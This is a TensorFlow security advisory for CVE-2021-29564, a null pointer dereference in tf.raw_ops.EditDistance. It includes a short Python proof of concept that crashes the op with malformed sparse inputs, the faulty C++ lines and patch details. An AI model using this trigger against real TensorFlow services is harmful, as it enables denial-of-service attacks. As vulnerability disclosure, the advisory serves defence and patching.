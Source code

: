 ## TFSA-2021-052: Null pointer dereference in `EditDistance`

### CVE Number
CVE-2021-29564

### Impact
An attacker can trigger a null pointer dereference in the implementation of
`tf.raw_ops.EditDistance`:

```python
import tensorflow as tf

hypothesis_indices = tf.constant([247, 247, 247], shape=[1, 3], dtype=tf.int64)
hypothesis_values = tf.constant([-9.9999], shape=[1], dtype=tf.float32)
hypothesis_shape = tf.constant([0, 0, 0], shape=[3], dtype=tf.int64)
truth_indices = tf.constant([], shape=[0, 3], dtype=tf.int64)
truth_values = tf.constant([], shape=[0], dtype=tf.float32)
truth_shape = tf.constant([0, 0, 0], shape=[3], dtype=tf.int64)

tf.raw_ops.EditDistance(
    hypothesis_indices=hypothesis_indices, hypothesis_values=hypothesis_values,
    hypothesis_shape=hypothesis_shape, truth_indices=truth_indices,
    truth_values=truth_values, truth_shape=truth_shape, normalize=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/79865b542f9ffdc9caeb255631f7c56f1d4b6517/tensorflow/core/kernels/edit_distance_op.cc#L103-L159)
has incomplete validation of the input parameters.

In the above scenario, an attacker causes an allocation of an empty tensor for
the output:

```cc
OP_REQUIRES_OK(ctx, ctx->allocate_output("output", output_shape, &output));
auto output_t = output->flat<float>();
output_t.setZero();
```

Because `output_shape` has 0 elements, the result of `output->flat<T>()` has an
empty buffer, so calling `setZero` would result in a null dereference.

### Patches
We have patched the issue in GitHub commit
[f4c364a5d6880557f6f5b6eb5cee2c407f0186b3](https://github.com/tensorflow/tensorflow/commit/f4c364a5d6880557f6f5b6eb5cee2c407f0186b3).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
